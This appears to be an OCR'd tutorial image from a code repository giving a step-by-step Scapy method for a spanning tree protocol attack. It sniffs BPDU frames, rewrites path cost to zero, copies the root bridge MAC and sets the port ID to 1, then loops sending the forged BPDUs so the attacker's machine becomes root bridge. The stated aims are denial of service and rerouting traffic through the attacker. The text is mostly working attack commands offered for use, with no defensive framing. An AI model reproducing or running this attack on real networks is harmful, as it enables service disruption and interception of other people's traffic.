-> DOS STP-Network Attack :

  - Capturing STP packets phase :
  .1. Capture packets from the network using "scapy.sniff(filter="CaptureFilter",count="Packet.No")" .

   .1.1 Capturing idea is for get the STP-Packet information (Bridge-Port, Port-Cost, Port-ID, Fake BPDU) .

   - sniffed_pkt = sniff(filter="ether dst 01:80:c2:00:00:00",count=1,iface="Interface", prn="Function",store=False | True)
    - 01:80:c2:00:00:00 Is the STP (spanning tree protocol) Default Multicast-MAC
Address .



  - Show Packet Information Phase :
  .2. sniffed_pkt[0] : View captured frame, Keep in mind that I captured one packet up .
  .3. sniffed_pkt[0].show() : View captured frame - show nicely .
  .4. sniffed_pkt[0][0].show() : View 802.3 Ethernet .
  .5. sniffed_pkt[0][1].show() : View Logical-Link Control .
  .6. sniffed_pkt[0][2].show() : View STP .
  .6.2 sniffed_pkt[0][STP].show() : Specify STP

  - Start Block (DOS) And Setting Changing attack :
  .1. sniffed_pkt[0].pathcost = 0  : Because the root cost for the root-bridge from the
root bridge = 0, which mean i modified the packet to have the cost = 0 as I am a
root-bridge .
   .1.1 Block port to root switch .
   .1.2 Set cost to root to zero .
  .2. sniffed_pkt[0].bridgemac = sniffed_pkt[0].rootmac : Set bridge MAC to root bridge .
  .3. sniffed_pkt[0].portid = 1 : Set port id to 1, to break the tie if it happend by
have the lowest port-id = 1, to let other devices ensure that i am the root-bridge .
  .4. for i in range(0, 50):  Loop to send multiple BPDUs .
        sniffed_pkt[0].show()
        sendp(sniffed_pkt[0],loop=0,verbose=1)
        time.sleep(1)


  - This attack to change the route of the topology and change the path for the root switch, and set my path as root-switch path .
  - Faking the switch that I changed the path between it and the root switch, that the best way or "the root path is through" my device rather than the original root path, and can do that by manipulating the original pathcost and change it to zero then change the mac address of the root path .
 
